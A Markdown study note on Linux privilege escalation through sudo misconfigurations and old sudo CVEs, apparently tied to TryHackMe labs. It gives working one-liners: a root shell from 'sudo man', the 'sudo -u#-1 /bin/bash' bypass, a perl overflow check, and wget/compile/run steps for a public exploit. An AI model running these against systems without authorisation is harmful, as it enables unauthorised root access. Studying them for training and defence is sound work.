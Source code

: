 # Linux Privilege Escalation: SUDO Privileges

## Contents
- [What are we looking for?](#what-are-we-looking-for)
- [Standard Local Enumeration](#standard-local-enumeration)
  - [`sudo -l`](#sudo--l)
  - [Results](#results)
  - [The Vulnerability](#the-vulnerability)
- [The Hack: `sudo man [command]`](#the-hack-sudo-man-command)

## What are we looking for?
- We are looking for poorly configured binaries (executables) on the compromised Linux system.
  - We can use these binaries to elevate our privileges
- Many binaries in Linux can be used to execute specific commands.
  - If a binary has sudo privileges attached (without a password), you may be able to use that binary to spawn a shell (thus gaining root privs). 

## Standard Local Enumeration

### `sudo -l`
```
cat /etc/passwd     #find out what other users are configured on the system
sudo -l
```
-  `-l` (lowercase "L" for list) list out the sudo commands the current user can run.
-  [From the man page](https://linux.die.net/man/8/sudo): The `-l` (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

### Results
- Assume we found a binary we can run with sudo privileges: `/sur/bin/man`
- And the "NOPASSWD" option has been set
- So we can run that command as root without any password or authentication
- This is a misconfiguration we can exploit (see below).
- Use [GTFOBins](https://gtfobins.github.io/) to look up how to compromise the binary file you and use with sudo.

### The Vulnerability
- The `man` utility (to display "man pages") allows you to spawn a Bash shell via the utility itself.
- The normal way you'd open a man page is `man [command]`.
  - This will open the man page with the current user's privileges.
- But if you can run `/usr/bin/man` with root privs using `sudo` (because it's set with "NOPASSWD"), then you can open a shell as root.
  - Preface the `man` comand with `sudo`. That runs the command with root privileges: `sudo man [command]`
  - And since the system is configured to run `/usr/bin/man` via sudo without a password, you are not prompted for any authentication. 

## [The Hack](https://gtfobins.github.io/gtfobins/man/#sudo): `sudo man [command]`
- Open a man page (any man page) with sudo: `sudo man [command]` 
- It parses out the contents of the man page with "more"
- While the man page is displayed, you can enter commands with the "!"
  - Example:  `!/bin/bash`
  - This is a function of more not of man.
  - [From the more man page](https://man7.org/linux/man-pages/man1/more.1.html): `!command` or `:!command` : Execute command in a subshell.
  - `less` works the same way.
- This results in a Bash session as root (the owner of the man process from which the shell was spawned).

## [Security Bypass](https://www.exploit-db.com/exploits/47502) - CVE-2019-14287
> If you have sudo < 1.8.28 this should work.

1. Check for the user sudo permissions
- You can either run a `sudo -l` or `cat` out the **/etc/sudoers/** file.
- You are looking for this configuration: 
```
# from sudo -l: 
User hacker may run the following commands on kali:
  (ALL, !root) /bin/bash

# or in /etc/sudoers:
hacker ALL=(ALL,!root) /bin/bash
```

2. Exploit: 
- Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo privilege.
- `-u#-1` returns as 0 which is root's id
- And then /bin/bash is executed with root permission:
```
sudo -u#-1 /bin/bash
```

3. [TryHackMe Walk-Through](https://tryhackme.com/r/room/sudovulnsbypass)

## [pwfeedback](https://www.exploit-db.com/exploits/47995) - CVE-2019-18634
> If you have sudo < 1.8.26 this should work.

If pwfeedback is enabled in sudoers, you may be able to escalate privileges through buffer overflow.
- Sudo's pwfeedback option can be used to provide visual feedback when the user is inputting their password.
- For each key press, an asterisk is printed. This option was added in response to user confusion over how the standard Password: prompt disables the echoing of key presses.
- While pwfeedback is not enabled by default in the upstream version of sudo, some systems, such as Linux Mint and Elementary OS, do enable it in their default sudoers files.
- Due to a bug, when the pwfeedback option is enabled in the sudoers file, a user may be able to trigger a stack-based buffer overflow.
- This bug can be triggered even by users not listed in the sudoers file.
- There is no impact unless pwfeedback has been enabled.

1. Check for the configuration: pwfeedback
- Exploiting the bug does not require sudo permissions, merely that pwfeedback be enabled.
- You can try a `sudo -l` or `cat /etc/sudoers` but if you cannot access sudo because of perms, just run sudo command (any command; e.g., `sudo su root`).
- If you get an asterisk everytime you type a letter in for the password, pwfeedback is enabled.
- If sudo is < 1.8.26, then the hack should work.
```
sudo -l
# If the results include pwfeedback, like below, sudo is vulnerable.
Matching Defaults entries for millert on linux-build:
insults, pwfeedback, mail_badpass, mailerpath=/usr/sbin/sendmail

User millert may run the following commands on linux-build:
(ALL : ALL) ALL
```

2. You can check to see if the vulnerability can be exploited with:
```
perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
```
- If that returns `Password: Segmentation fault`, it is exploitable.
- This perl command does not actually exploit the vulnerability.
  - We use Perl to generate a lot of information which we're then passing into the sudo command as a password using the pipe (|) operator.
  - This doesn't actually give us root permissions -- instead it shows us an error message: Segmentation fault, which basically means that we've tried to access some memory that we weren't supposed to be able to access.
  - This proves that a buffer overflow vulnerability exists, but it doesn't exploit it. 

3. Exploit:
- [Actual Exploit](https://github.com/saleemrashid/sudo-cve-2019-18634) | [TryHackMe Write-Up](https://tryhackme.com/r/room/sudovulnsbof)

```
#Download the C code onto your target machine (because you have to compile on the target machine).
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/refs/heads/master/exploit.c

# Compile that file on the target machine: 
gcc -o exploit exploit.c 

# Execute it:
./exploit
```
